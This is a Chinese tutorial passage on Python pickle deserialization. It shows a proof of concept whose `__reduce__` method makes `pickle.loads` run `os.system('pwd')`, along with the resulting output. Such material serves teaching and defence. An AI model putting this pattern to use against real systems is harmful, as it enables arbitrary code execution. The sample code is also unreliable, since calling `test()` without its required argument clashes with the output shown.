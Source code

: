 当然和php一样也可以序列化字符串，数组，字典，类。

[`__reduce__`](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler)这个魔术方法类似php的`__wakeup`，用于在反序列化时返回用户重新构建object所需要的信息。

Python 要求该方法返回一个元组`(callable, ([para1,para2...])[,...])` ，那么每当该类的对象被反序列化时，该 `callable` 就会被调用，参数为`para1、para2`。

同时`__reduct__`方法本身的实现及使用到的相关数据会在序列化时保存。

想较于php的`__wakeup`是目标环境写死的，我们可以控制和修改`__reduce__`的实现，即可实现任意代码执行。

```python
import pickle
import os

class test:
    def __init__(self, people):
        self.people = 'lituer'
    def __reduce__(self):
        return (os.system, ("pwd",))
    
a = test()
serialized = pickle.dumps(a)
print(serialized)

unserialized = pickle.loads(serialized)
print(unserialized)
print(unserialized.people)
```
输出
```
b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x03pwd\x94\x85\x94R\x94.'
/Users/zqq/Desktop
0
Traceback (most recent call last):
  File "/Users/zqq/Desktop/1.py", line 16, in <module>
    print(unserialized.people)
AttributeError: 'int' object has no attribute 'people'
```
{{< hint info >}}
留意这里的报错，`AttributeError: 'int' object has no attribute 'people'`

因为`os.system`返回的是执行命令的状态码，所以`unserialized`为int类型；如果改为
```python
def __reduce__(self):
    return (self.__class__, (self.people, ))
```
则`unserialized`为`<__main__.test object at 0x7f89c81313d0>`
{{< /hint >}}
